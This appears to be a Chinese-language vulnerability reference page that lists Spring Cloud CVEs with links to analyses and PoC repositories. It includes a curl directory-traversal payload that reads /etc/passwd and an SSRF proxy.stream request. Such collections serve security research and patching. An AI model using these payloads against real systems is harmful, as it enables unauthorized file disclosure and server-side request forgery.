 
## CVE-2020-5410 Spring Cloud Config目录穿越漏洞

**相关文章**
- [CVE-2020-5410 Spring Cloud Config目录穿越漏洞](https://xz.aliyun.com/t/7877)

**POC | Payload | exp**
```
curl "vulnerablemachine:port/..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252F..%252Fetc%252Fpasswd%23foo/development"
```

---

## CVE-2020-5412 Spring Cloud Netflix Hystrix Dashboard SSRF

**相关文章**
- [CVE-2020-5412分析复现](https://zhzhdoai.github.io/2020/09/01/CVE-2020-5412%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/)

**POC | Payload | exp**
```
/proxy.stream?origin=http://www.baidu.com
```

---

## CVE-2021-22053 Spring Cloud Netflix Hystrix Dashboard template resolution vulnerability

**POC | Payload | exp**
- [SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053](https://github.com/SecCoder-Security-Lab/spring-cloud-netflix-hystrix-dashboard-cve-2021-22053)

---

## CVE-2022-22947 Spring Cloud Gateway远程代码执行漏洞

**相关文章**
- [从SSRF 到 RCE —— 对 Spring Cloud Gateway RCE漏洞的分析](https://mp.weixin.qq.com/s/w3et7TzqZ4ctyybEWQ82HQ)
- [漏洞武器化之CVE-2022-22947 Spring Cloud Gateway表达式注入回显与内存马构造](https://mp.weixin.qq.com/s/lKKOUvWqU1Qpexus5u_3Uw)
- [Spring cloud gateway通过SPEL注入内存马](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)
- [Spring Cloud Function 漏洞复现](https://www.o2oxy.cn/4029.html)

**POC | Payload | exp**
- [lucksec/Spring-Cloud-Gateway-CVE-2022-22947](https://github.com/lucksec/Spring-Cloud-Gateway-CVE-2022-22947)

---
